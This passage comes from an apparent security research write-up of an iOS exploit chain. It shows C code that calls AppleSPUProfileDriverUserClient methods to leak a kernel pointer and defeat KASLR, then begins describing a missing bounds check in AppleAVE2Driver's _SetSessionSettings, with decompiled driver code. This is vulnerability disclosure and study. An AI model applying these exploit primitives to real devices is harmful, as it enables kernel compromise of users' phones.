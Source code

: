 ```
        // Enqueues a data item of size 0x30, leaking 0x18 bytes off the stack 
        IOConnectCallStructMethod(ioconn, 11, NULL, 0, NULL, NULL);
        
        // Map the IOSharedDataQueue and look for the leaked ptr 
        kaslr = check_memmap_for_kaslr(ioconn);
        
        if (kaslr_iter++ % 5 == 0)
        {
            scalarInput = 0;
            // AppleSPUProfileDriverUserClient::extSetEnabledMethod
            IOConnectCallScalarMethod(ioconn, 0, &scalarInput, 1, NULL, NULL);
         
            scalarInput = 1;
            // AppleSPUProfileDriverUserClient::extSetEnabledMethod
            IOConnectCallScalarMethod(ioconn, 0, &scalarInput, 1, NULL, NULL);
        }
    }

    scalarInput = 0;
    // AppleSPUProfileDriverUserClient::extSetEnabledMethod
    IOConnectCallScalarMethod(ioconn, 0, &scalarInput, 1, NULL, NULL); // Shutdown
    
    return kaslr;
}
```

### Going for Gold: Attacking the Kernel 

The final vulnerability in this chain is a missing bounds check in `AppleAVE2Driver`. AppleAVE2 is a graphics driver in iOS, and in our case is accessible via the MIDIServer sandbox escape.
The userclient exposes 24 methods, and this bug exists within the method at index 7; `_SetSessionSettings`. This method takes an input buffer of size `0x108`, and loads many IOSurfaces from ID's provided in the input buffer via the `AppleAVE2Driver::GetIOSurfaceFromCSID` method, before finally calling `AppleAVE2Driver::Enqueue`. Specifically, the method will load a surface by the name of `InitInfoSurfaceId` or `InitInfoBufferr`:

```
  if ( !structIn->InitInfoSurfaceId )
  {
    goto err;
  }
  
  [...]

  initInfoSurfaceId = structIn->InitInfoSurfaceId;
  if ( initInfoSurfaceId )
  {
    initInfoBuffer = AppleAVE2Driver::GetIOSurfaceFromCSID(this->provider, initInfoSurfaceId, this->task);
    this->InitInfoBuffer = initInfoBuffer;
    if ( initInfoBuffer )
      goto LABEL_13;
    
    goto err;
  }
```
